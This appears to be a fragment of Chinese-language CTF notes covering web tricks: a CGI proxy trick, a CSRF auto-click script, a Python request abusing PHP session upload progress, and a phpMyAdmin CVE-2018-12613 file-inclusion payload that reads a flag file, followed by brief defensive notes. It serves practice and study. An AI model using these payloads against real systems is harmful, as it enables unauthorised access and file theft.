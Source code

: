 

## Misc

### cgi相关

走代理：

*例题：[V&N2020 公开赛]TimeTravel*

Proxy: 47.100.179.0:9999

然后在自己的服务器上返回数据

### csrf

```html
<script type="text/javascript">
    //自动点击
      document.getElementById("haha").click();
 </script>
```

### PHP session

绕过session auto start off:

```python
import requests

url = "http://0738e043-ba7b-441b-bb2d-cedf589d052f.node3.buuoj.cn/templates/login.php"

files = {"file": "123456789"}
a = requests.post(url=url, files=files, data={"PHP_SESSION_UPLOAD_PROGRESS": "qwer"},
                  cookies={"PHPSESSID": "qwer"}, params={'username': '1231234', 'password': '1231234'},
                  proxies={'http': "http://127.0.0.1:8080"})
print(a.text)
```

### phpmyadmin任意文件读取

[CVE-2018-12613（phpmyadmin远程文件包含漏洞）](https://www.xiinnn.com/article/e7c68814.html)

> phpmyadmin/index.php?target=db_datadict.php?/../../../../../flag





# 防御

php上流量监控脚本写日志

备份服务器
